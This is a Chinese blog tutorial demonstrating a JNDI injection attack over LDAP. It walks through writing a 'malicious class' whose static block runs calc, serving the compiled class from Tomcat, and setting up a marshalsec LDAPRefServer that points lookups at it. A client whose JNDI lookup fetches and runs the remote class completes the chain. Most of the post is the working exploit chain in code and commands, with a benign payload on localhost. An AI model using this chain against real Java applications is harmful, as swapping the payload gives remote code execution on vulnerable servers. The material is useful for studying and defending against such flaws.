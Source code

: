 [(120条消息) JNDI注入demo使用ldap方式\_jndi demo\_JAVA道人的博客-CSDN博客](https://blog.csdn.net/dmw412724/article/details/121891284)

![](https://csdnimg.cn/release/blogv2/dist/pc/img/original.png)

[JAVA道人](https://blog.csdn.net/dmw412724 "JAVA道人") ![](https://csdnimg.cn/release/blogv2/dist/pc/img/newCurrentTime2.png) 于 2021-12-12 18:32:26 发布 ![](https://csdnimg.cn/release/blogv2/dist/pc/img/articleReadEyes2.png) 1243 ![](https://csdnimg.cn/release/blogv2/dist/pc/img/tobarCollect2.png) 收藏 1

版权声明：本文为博主原创文章，遵循 [CC 4.0 BY-SA](http://creativecommons.org/licenses/by-sa/4.0/) 版权协议，转载请附上原文出处链接和本声明。

## JNDI注入demo

JNDI（The Java Naming and Directory Interface，Java命名和目录接口）是一组在Java应用中访问命名和目录服务的API,命名服务将名称和对象联系起来,使得我们可以用名称访问对象。

这些命名/目录服务提供者:

RMI (JAVA远程方法调用)  
LDAP (轻量级目录访问协议)  
CORBA (公共对象请求代理[体系结构](https://so.csdn.net/so/search?q=%E4%BD%93%E7%B3%BB%E7%BB%93%E6%9E%84&spm=1001.2101.3001.7020))  
DNS (域名服务)

> 大致说下原理，JNDI可以获取远程类并在当前环境里面执行。  
> 如果我们知道的某个程序某一处执行了JNDI，那么我们编写一个恶意类让其访问获取，就可以做很多事情了。  
> 当前demo使用的是ldap协议

## 一。准备工作

### 1.编写一个恶意类Muma.

里面调用了calc，这个相当于调用了一个计算器。

```
public class Muma {
static {
try {
Runtime.getRuntime().exec("calc").waitFor();
} catch (Exception  e1) {
e1.printStackTrace();
}
}
}
```

值得注意的是，这里面不能有package。

### 2.编译Muma

```
javac Muma.java 
```

然后我们获得了Muma.class

### 3.把Muma.class放到服务器上面。

本例放到tomcat的ROOT下面。  
启动tomcat,http://localhost:8080/Muma.class可以获取到该文件。

### 4.架设ldap服务器。

-   下载marshalsec安全工具。github下载代码https://github.com/mbechler/marshalsec
-   使用maven打包，mvn clean package -DskipTests。这里生成个marshalsec-0.0.3-SNAPSHOT-all.jar,注意是里面的带all的jar
-   使用jar架设ldap服务器

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8080#Muma 9527
```

这里访问了上面的8080Muma，架设完成，架设好的ldap服务器端口是9527。  
额外提下，这个marshalsec还可以架设rmi服务器，总体架设格式如下：

```
java -cp target/marshalsec-[VERSION]-SNAPSHOT-all.jar marshalsec.jndi.(LDAP|RMI)RefServer <codebase>#<class> [<port>]
```

到此为止，我们的准备工作做好了。然后我们做个客户端来访问下这个ldap服务。

### 4.测试

```
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class LdapClient {
public static void main(String[] args) throws NamingException {
Context context = new  InitialContext();
context.lookup("ldap://127.0.0.1:9527/Muma");
}
}
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/b0b3186d985946729be0c9ba42b7f914.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBASkFWQemBk-S6ug==,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

相当的的NICE！！！